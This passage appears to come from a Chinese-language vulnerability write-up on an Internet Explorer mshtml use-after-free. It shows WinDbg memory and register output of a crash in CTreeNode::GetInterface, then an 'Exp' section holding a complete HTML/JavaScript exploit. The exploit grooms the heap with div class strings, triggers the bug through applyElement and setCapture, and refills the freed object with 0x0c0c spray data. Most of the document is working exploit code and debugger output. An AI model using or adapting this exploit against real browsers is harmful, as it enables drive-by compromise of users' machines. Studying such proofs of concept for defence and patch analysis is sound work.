 	0:011> dd 0517037d

	0517037d 01ffffff 02000000 f0000000 fc0505c3

	0517038d 0105152c 04000000 50000000 680505c4

	0517039d 0105151a 05000000 50000000 180505c4

	051703ad 0e05152d 00ef1281 07ff0800 01000001

	051703bd 00000000 ff000000 01ffffff 02000000

	051703cd 00000000 00000000 01000000 04000000

	051703dd 00000000 00000000 06000000 05000008

	051703ed 00000000 ff000000 07ffffff 00ef1281

	0:011> r

	eax=0517037d ebx=0521fb78 ecx=01ffffff edx=0283c774 esi=3db55244 edi=3db6a37c

	eip=3db6a4a6 esp=0283c754 ebp=0283c778 iopl=0 nv up ei ng nz ac po cy

	cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00050293

	mshtml!CTreeNode::GetInterface+0xb6:

	3db6a4a6 ff11 call dword ptr [ecx] ds:0023:01ffffff=????????

## **漏洞利用**

Exp：

	<html>
		<script>
			lfh = new Array(20);
			for(i = 0; i < lfh.length; i++) {
			  lfh[i] = document.createElement('div');
			  lfh[i].className = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
			}
			function trigger()
			{
			  var id_0 = document.createElement("sup");
			  var id_1 = document.createElement("audio");
			  document.body.appendChild(id_0);
			  document.body.appendChild(id_1);
			  id_1.applyElement(id_0);
			  id_0.onlosecapture=function(e) {
				document.write("");
				tt = new Array(20);
				for(i = 0; i < tt.length; i++) {
				  tt[i] = document.createElement('div');
				  tt[i].className = "\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c";
				}
			  }
			  id_0['outerText']="";
			  id_0.setCapture();
			  id_1.setCapture();
			}
			window.onload = function() {
			  trigger();
			}
		</script>
	</html>
